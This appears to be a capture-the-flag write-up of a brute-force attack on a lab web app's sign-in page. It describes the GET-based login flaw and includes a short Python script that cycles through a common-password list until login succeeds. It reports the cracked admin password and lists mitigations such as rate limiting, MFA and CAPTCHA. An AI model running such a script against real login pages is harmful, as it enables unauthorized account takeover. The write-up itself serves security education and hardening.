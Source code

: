# BRUTE FORCE ATTACK ON SIGN-IN PAGE

## IDENTIFY THE VULNERABILITY

Upon examination, we discovered that the login page, accessible at http://192.168.56.2/?page=signin, allowed an unlimited number of login attempts, and the authentication process was handled through a GET request.

## EXPLOIT THE VULNERABILITY

We executed a brute force attack by repeatedly attempting unauthorized logins using a Python script and a list of commonly used passwords. The script used the requests library to dispatch multiple GET requests to the login page, each time featuring a distinct password. Then, it checked the response to determine if the login was successful. If the wrong answer image was not present in the response, the login was considered successful.

```python
def login(username: str, password: str) -> bool:
    # Build login url
    url = URL + "&username=" + username + "&password=" + password + "&Login=Login#"
    # Try to login
    content = get_request(url)
    if WRONG_ANSWER_IMG in content.decode():
        return False
    # If the wrong answer image is not present, the login was successful
    return True

def test_common_passwords(username: str) -> None:
    # Read passwords list from an external file
    with open(PASSWORDS_FILE_PATH, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            result = login(username, password)
            if (result == True):
                return
```

Ultimately, we were able to gain access to the admin account by guessing the password **"shadow"**. With this knowledge, we can log in using any username, granting us access to the flag.

## INFORMATION ON BRUTE FORCE ATTACKS

A brute force attack uses trial-and-error to guess login info, encryption keys, or find a hidden web page. Hackers work through all possible combinations hoping to guess correctly.
In regards to authentication, when no password policy is in place an attacker can use lists of common username and passwords to brute force a username or password field until successful authentication.

## PATCH THE VULNERABILITY

To limit the risks associated with brute force attacks, consider the following measures:

    1. Switch to POST Request: Prefer using a POST request for login instead of a GET request. This ensures that credentials are sent in the HTTP message body rather than the URL.

    2. Implement Password Complexity:
        - Mix uppercase and lowercase letters.
        - Use alphanumeric combinations.
        - Incorporate special characters for added security.

    3. Limit Login Attempts:
        - Restrict the number of login attempts.
        - Implement IP blocking for repeated failures.
        - Notify users and block accounts after a certain number of unsuccessful attempts.

    4. Require Multi-Factor Authentication (MFA):
        Enforce the use of two-factor authentication. 2FA adds an extra layer of security by requiring users to provide two different authentication factors.

    5. Utilize CAPTCHA:
        Implement CAPTCHA to differentiate between human and automated login attempts.

    6. Deploy a Web Application Firewall (WAF):
        Use a WAF to filter and monitor HTTP traffic, providing an additional layer of protection.

    7. Introduce Time Delay:
        Implement time delays between login attempts to slow down brute force attacks.

    8. Remove any unused accounts with high-level permissions:
    These are the cyber equivalent of doors with weak locks that make breaking in easy.

## SOURCES

https://www.getastra.com/blog/cms/prevent-brute-force-attack-in-php/
https://www.kaspersky.com/resource-center/definitions/brute-force-attack
